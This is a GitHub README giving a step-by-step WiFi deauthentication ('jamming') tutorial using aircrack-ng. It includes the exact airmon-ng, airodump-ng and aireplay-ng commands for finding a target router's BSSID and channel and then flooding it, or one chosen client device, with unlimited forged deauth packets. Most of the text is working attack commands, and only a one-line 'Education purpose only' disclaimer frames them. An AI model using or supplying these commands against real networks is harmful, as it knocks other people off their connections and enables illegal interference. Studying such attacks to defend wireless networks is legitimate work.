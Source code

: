 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters. If you looking for an automated script head over to my another repo [here](https://github.com/mtm-x/wifi-jammer-script)
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)

```
sudo apt install aircrack-ng
```

# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![1](https://github.com/mtm-x/wifi-jammer/assets/88881685/8e6b01cb-34cc-4fad-babe-42c7d38db355)

In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range. Wait for some moments and once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this. Press `ctrl+c` to stop.

6. now run

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```


The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


Press `ctrl+c` to stop.


Now most of the devices connected to the router 'victim' will be disconnected. Connected devices try to reconnect to the router 'victim' but again it will be disconnected. But some of the devices might not get disconnect from the wifi router( Samsung devices ). In this situations you can just do deauthenticate specific device alone rather then sending deauth packets the whole wifi router. For instance imagine 2 devices connected to the router Victim you can just send deauthentication packets to one device and knock that device from being connected to the router Victim.


For specific device attack just repeat from step 4 and make changes in the final 6th step as follows


```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] -c [DEVICES MAC ADDRESS] wlan0mon
```

Devices mac address can be found under the station coloumn. Bascially all the devices connceted to the wifi router Victim will be shown here. 

![Screenshot_20240715_180618](https://github.com/user-attachments/assets/f7dcb7ba-6850-4aa6-a745-9dfa3050d1c1)



## Managed Mode

After the attack put your wifi card in managed mode in order to use wifi in your pc 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






